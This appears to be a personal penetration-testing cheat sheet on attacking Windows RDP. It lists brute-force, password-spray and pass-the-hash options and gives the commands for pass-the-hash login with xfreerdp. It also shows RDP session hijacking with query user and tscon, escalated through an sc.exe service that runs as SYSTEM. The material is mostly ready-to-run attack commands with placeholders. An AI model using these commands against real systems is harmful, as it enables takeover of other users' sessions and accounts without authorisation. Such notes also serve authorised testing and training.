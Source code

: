 -- -
### Attacks
- See if RDP version is vulnerable to an exploit
- Try [[Medusa| Brute forcing a users password]]
- Try a [[Dark Arts/Passwords/Password Spray|Password Spray Attack]]
- Try a [[PtH]] attack
### Connecting w/ valid credentials
```bash
# xfree rdp
xfreerdp /v:<ip> /u:<username> /p:<passwd> 

# rdesktop
rdesktop -u <username> -p <passwd> <ip>
```
### Connecting via PtH
```bash
xfreerdp /v:<ip> /u:<username> /pth:<hash>
```

^062e8b

### Session Hijacking
You need to have `SYSTEM` privs to pull this off, so more likely than not, you need:
1. to be local admin
2. have logged into the account via rdp
3. there needs to be another logged in user

To see if another user is logged in via rdp, pull up `PowerShell` or `CMD`.
```powershell
# you will need the following:
# SESSIONNAME (ours)
# ID (targets)
query user
```

To hijack the session, if the account has `SYSTEM` privs set already, you can just run:
```powershell
# this will open a terminal that's logged in as the other user
tscon <target session ID> /dest:<our session name>
tscon 2 /dest:rdp-tcp#13
```

There are a multitude of ways to get `SYSTEM` privs, one such way if you are a local admin is to setup a service that runs the above command when executed. The service will automatically run with `SYSTEM` privs and open a terminal up as the other user. 
```powershell
# setup session hijack service
sc.exe create <service name> binpath= "cmd.exe /k tscon <targetsession id> /dest:<our session name>"
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

# start the service
net start <session name>
net start sessionhijack
```